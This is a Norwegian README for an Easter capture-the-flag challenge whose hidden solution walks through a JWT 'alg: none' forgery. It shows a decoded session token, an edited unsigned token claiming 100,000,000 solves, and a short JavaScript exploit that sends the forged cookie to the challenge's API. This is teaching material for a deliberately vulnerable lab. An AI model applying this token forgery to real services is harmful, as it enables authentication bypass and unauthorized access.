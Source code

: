 <p align="center">
  <a href="https://ctf-rubberduck-easter.vercel.app">
    <img src="./screenshot.png" height="300px">
  </a>
</p>

&nbsp;

# Rubberduck påske CTF

En CTF-oppgave bygget med [`lit.js`](https://lit.dev) og [`tailwind.css`](https://tailwindcss.com) ment for å kjøre på [Vercel](https://vercel.com/) ved hjelp av [serverless functions](https://vercel.com/docs/concepts/functions/serverless-functions)

<br>
<hr>
<br>

## Oppgavetekst
> Påskeharen er godt i gang med årets levering av påskeegg, men har hvert år en del defekte egg som ikke vil åpnes. Disse kan selvfølgelige ikke påskeharen utlevere, men det finnes en instruks for hvordan eggene kan åpnes<br>
<br>
Hvert egg har to tilhørende tilfeldig adjektiver som beskriver egget og en "lykke-kode". Påskeharen sier at hvert egg som er låst ikke er korrekt justert for å oppnå sin "lykke-kode". Du kan justere egget ved å finne en hash av typen <code>SHA256(ADJEKTIV_1 + ADJEKTIV_2 + justering)</code> som begynner på eggets "lykke-kode".<br>
<br>
For eksempel så vil et egg med adjektivene <code>brilliant</code> og <code>stappfullt</code> trenge en justing på <code>123</code> for å oppnå sin "lykke-kode" med verdi <code>37964</code>. Fordi <code>SHA256(brilliantstappfullt123) == 37964....</code><br>
<br>
Men vi begynner å lure på om ikke påskeharen har lurt oss i år. Hen vil at vi skal åpne 100 000 000 egg på denne måten før vi får belønningen våres! Klarer du å lure en luring?<br>

<br>

## Installasjon og lokal kjøring
### Prequisits
* [nodejs](https://nodejs.org/en)
* [npm](https://nodejs.org/en)
* [vercel-cli](https://vercel.com/docs/cli)

Etter installasjon av node, `npm install` og `npm i -g vercel` kan prosjektet startes med kommandoen `vercel dev --port 3001`.

For utvikling med Vite hot-relead anbefales det å også kjøre `npm run dev` som vil starte en hot-reaload devserver av frontend på port `3000` (satt opp til å proxye `/api` kall til `http://localhost:3001` (Vercel))

<br>

## Løsning
<details>
  <summary>Klikk for å vise løsningforslag</summary>
  <br>
  Oppgaven spesifiserer at brukeren må klare å "knekke" 100 000 000 påskeegg før man får "belønning". Ettersom knekking av påskeeggene baserer seg på å "gjette" seg frem til en `sha-256` hash som begynner på samme fire bokstaver som "lykke-koden" vil dette i praksis være tidsumulig med dagens datakraft.

  <br><br>

  Dersom vi reverse engineerer kommunikasjonen mellom frontend og backend ser vi at kommunikasjonen er basert på at frontend sender inn korrekt `padding` til `/api/next_egg` endepunktet.

  Dersom `padding` er korrekt så vil backend sende tilbake et nytt egg og slik har vi det gående.

  Dersom vi ser på trafikken nærmere ser vi at backend alltid oppdaterer en cookie `session` for hver korrekt `padding` frontend sender. Denne `session` cookien ser ut til å være en JWT.

  Et eksempel på en slik session er:
  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZGplY3RpdmUxIjoiZnJhc3TDuHRlbmRlIiwiYWRqZWN0aXZlMiI6Imh1bXBldGUiLCJjaGFsbGVuZ2UiOiI4ZGExIiwic29sdmVzIjowLCJqdGkiOiJmMWM4ZmMwMy1mNjIxLTRmYzEtOTVmNS1hNDYxNDcxMmFkMDciLCJpYXQiOjE2ODAzMDg1OTgsImV4cCI6MTY4MDM5NDk5OH0.uIHVTa4D7CxE9QmEKzFq34XGFTK44MFU4giqmVVGNeE
  ```

  En JWT er delt opp i tre base64-encoded deler: `header`, `payload` og `signature`. Dersom vi decoder vår JWT får vi følgende strukturer tilbake:
  ```json
  [
    {
      "typ": "JWT",
      "alg": "HS256"
    },
    {
      "adjective1": "frastøtende",
      "adjective2": "humpete",
      "challenge": "8da1",
      "solves": 0,
      "jti": "f1c8fc03-f621-4fc1-95f5-a4614712ad07",
      "iat": 1680308598,
      "exp": 1680394998
    },
    "uIHVTa4D7CxE9QmEKzFq34XGFTK44MFU4giqmVVGNeE"
  ]
  ```

  Det finnes flere svakheter med hvordan JWT verifisering kan være implementert på en server. En av hovedsvakhetene (men også en styrke) er at det i det hele tatt kan lese `header` og `payload` feltene uten å verifisere den opp mot `signature` delen.

  En annen svakhet i noen JWT implementasjoner er at algoritmen som brukes for å signere `header` + `payload` ligger klart definert i `header` feltet og kan i en evt. feil-implementasjon bli brukt under validering av JWT-en. <b>Dette er svakheten her</b>

  Dersom vi endrer algoritmen i JWT headeren våres til å spesifisere at `"alg": "none"` skal benyttes (som er en helt gyldig iht. JWT-spesifikasjonen) så kan vi også fritt endre `payload` og fjerne hele `signature` delen:

  ```json
  [
    {
      "typ": "JWT",
      "alg": "none"
    },
    {
      "adjective1": "frastøtende",
      "adjective2": "humpete",
      "challenge": "8da1",
      "solves": 100000000,
      "jti": "f1c8fc03-f621-4fc1-95f5-a4614712ad07",
      "iat": 1680308598,
      "exp": 1680394998
    }
  ]
  ```

  Dersom vi nå koder denne strukturen tilbake til en gyldig JWT:

  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhZGplY3RpdmUxIjoiZnJhc3TDuHRlbmRlIiwiYWRqZWN0aXZlMiI6Imh1bXBldGUiLCJjaGFsbGVuZ2UiOiI4ZGExIiwic29sdmVzIjoxMDAwMDAwMDAsImp0aSI6ImYxYzhmYzAzLWY2MjEtNGZjMS05NWY1LWE0NjE0NzEyYWQwNyIsImlhdCI6MTY4MDMwODU5OCwiZXhwIjoxNjgwMzk0OTk4fQ
  ```

  Så kan den brukes for å "lure" serveren til å tro at vi nå har åpnet 100 000 000 påskeegg og gi oss belønningen våres.

  <br>
  <hr>
  <br>
  
  ### Fullstending løsnings-kode:
  ```javascript
  const header = { typ: "JWT", alg: "none" };
  const payload = { solves: 100000000 };

  const headerAsBase64Url = btoa(JSON.stringify(header)).replaceAll('=', '');
  const payloadAsBase64Url = btoa(JSON.stringify(payload)).replaceAll('=', '');

  const session = `${headerAsBase64Url}.${payloadAsBase64Url}`;

  const { reward } = await fetch('/api/new_egg', { headers: { Cookie: `session=${session}` } })
    .then(response => response.json());

  console.log(`The reward is: ${reward}`);
  ```
  
</details>

